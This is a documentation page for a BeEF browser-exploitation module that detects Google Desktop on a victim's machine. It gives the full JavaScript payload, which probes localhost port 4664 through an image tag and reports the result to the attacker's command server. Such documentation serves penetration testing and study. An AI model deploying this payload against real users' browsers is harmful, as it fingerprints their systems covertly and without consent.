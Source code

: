 ## Summary

* **Objective**: Detect Google Desktop
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/host/detect_google_desktop)

## Internal Working

Uses image tags to detect Google Desktop on port 4664

```js
var dom = document.createElement('b');
var img = new Image;
img.src = "http://127.0.0.1:4664/logo3.gif";
img.onload = function() { beef.net.send('<%= @command_url %>', <%= @command_id %>,'google_desktop=Installed', beef.are.status_success());dom.removeChild(this); }
img.onerror = function() { beef.net.send('<%= @command_url %>', <%= @command_id %>,'google_desktop=Not Installed', beef.are.status_error());dom.removeChild(this); }
dom.appendChild(img);

```

## Feedback

